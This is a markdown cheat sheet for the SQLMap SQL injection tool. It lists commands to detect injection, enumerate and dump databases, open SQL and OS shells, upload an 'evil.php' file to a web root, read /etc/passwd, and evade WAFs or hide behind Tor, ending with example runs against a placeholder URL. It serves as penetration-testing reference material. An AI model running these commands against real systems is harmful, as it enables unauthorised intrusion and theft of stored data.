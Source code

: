 ```yaml
---
title: SQLMap
slug: sqlmap
description: Automated SQL injection and database takeover tool.
categories: ["Exploitation", "Web Application Security"]
bgColor: "bg-indigo-100"
textColor: "text-indigo-800"
top: true
---
```


## SQLMap Commands Cheat Sheet


### 🔍 1. Discovery & Detection
Commands to identify SQL injection vulnerabilities and types.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL>` | Basic SQL injection test. |
| `sqlmap -u <target_URL> --technique=BLIND` | Test for blind SQL injection. |
| `sqlmap -u <target_URL> --technique=TIME` | Specifically test for time-based blind injection. |
| `sqlmap -u <target_URL> --risk=3 --level=5` | Increase risk and level for more thorough testing. |
| `sqlmap -u <target_URL> --crawl=3` | Crawl target site to find injectable URLs. |
| `sqlmap -u <target_URL> --forms` | Test all forms on the page for injection. |
| `sqlmap -u <target_URL> --batch` | Skip user prompts for automated testing. |

---

### 🏗️ 2. Database Structure Enumeration
Commands to map out databases, tables, and columns.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --dbs` | Enumerate all databases. |
| `sqlmap -u <target_URL> -D <database_name> --tables` | List tables in a database. |
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --columns` | List columns in a table. |

---

### 🧾 3. Data Extraction
Commands to retrieve data from database tables.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump` | Dump data from a specific table. |
| `sqlmap -u <target_URL> --dump-all` | Dump all data from all databases. |
| `sqlmap -u <target_URL> --search -C <column_name>` | Search for specific columns across databases. |

---

### 🖥️ 4. Shell Access & File Operations
Commands for advanced exploitation and server interaction.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --sql-shell` | Open interactive SQL shell. |
| `sqlmap -u <target_URL> --os-shell` | Try to get an OS shell on the server. |
| `sqlmap -u <target_URL> --file-write=evil.php --file-dest=/var/www/html/evil.php` | Upload a file to the target server. |
| `sqlmap -u <target_URL> --file-read=/etc/passwd` | Read a file from the server. |

---

### 🧰 5. Customization & Headers
Fine-tune HTTP requests with headers, cookies, and method.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --cookie="SESSIONID=xyz"` | Include cookies in requests. |
| `sqlmap -u <target_URL> --header="X-Custom: value"` | Add custom HTTP headers. |
| `sqlmap -u <target_URL> --user-agent="CustomAgent"` | Set a custom User-Agent header. |
| `sqlmap -u <target_URL> --referer="https://google.com"` | Set a custom Referer header. |
| `sqlmap -u <target_URL> --method=POST --data="username=admin&password=pass"` | Use POST method with custom data. |

---

### 🛡️ 6. Evading Detection
Options to bypass Web Application Firewalls (WAFs) and filtering.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --tamper=space2comment` | Use tamper script to evade filters. |
| `sqlmap -u <target_URL> --random-agent` | Use a random User-Agent for requests. |
| `sqlmap -u <target_URL> --tor --tor-type=SOCKS5 --check-tor` | Route traffic through Tor network for anonymity. |
| `sqlmap -u <target_URL> --waf` | Detect and attempt to bypass WAF. |

---

### 🧪 7. Output & Logging
Control output saving and verbosity.

| Command | Description |
|---------|-------------|
| `sqlmap -u <target_URL> --output-dir=outputs` | Save all output to the specified directory. |
| `sqlmap -u <target_URL> --verbose=3` | Show detailed verbose output. |
| `sqlmap -u <target_URL> -v 0` | Suppress most output (quiet mode). |

---

### 📁 8. Configuration & Help
Helpful commands for configuration and assistance.

| Command | Description |
|---------|-------------|
| `sqlmap --help` or `sqlmap -h` | Show help and usage information. |
| `sqlmap -u <target_URL> --update` | Update SQLMap to the latest version. |
| `sqlmap -u <target_URL> --conf=config.txt` | Load options from a configuration file. |

---

## Example Usage {.cols-1}

```bash
# Test a URL for SQL Injection
sqlmap -u "http://example.com/vuln.php?id=1"

# Enumerate databases
sqlmap -u "http://example.com/vuln.php?id=1" --dbs

# List tables in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users --tables

# Dump data from 'accounts' table in 'users' database
sqlmap -u "http://example.com/vuln.php?id=1" -D users -T accounts --dump

# Use a proxy for traffic analysis
sqlmap -u "http://example.com/vuln.php?id=1" --proxy="http://127.0.0.1:8080"

# Run with custom HTTP header
sqlmap -u "http://example.com/vuln.php?id=1" --header="Authorization: Bearer token123"
